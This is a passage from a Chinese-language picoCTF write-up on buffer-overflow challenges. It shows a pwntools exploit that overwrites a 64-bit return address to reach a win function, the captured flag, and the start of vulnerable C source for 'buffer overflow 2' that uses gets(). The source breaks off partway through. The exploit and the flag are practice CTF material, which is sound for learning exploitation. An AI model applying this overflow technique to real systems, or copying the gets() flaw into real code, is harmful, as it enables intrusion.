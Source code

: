 ```C
}
```

64位的栈溢出，前面的是32位的。

payload：

```python
from pwn import *

# io = process('./vuln')
io = remote('saturn.picoctf.net', 49518)

io.sendlineafter(b'Welcome to 64-bit. Give me a string that gets you the flag: ', 
	cyclic(64 + 8) + p64(0x40123B))
	
io.interactive()
```

picoCTF{b1663r_15_b3773r_11c407bc}

## 7. buffer overflow 2

源码：
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
```
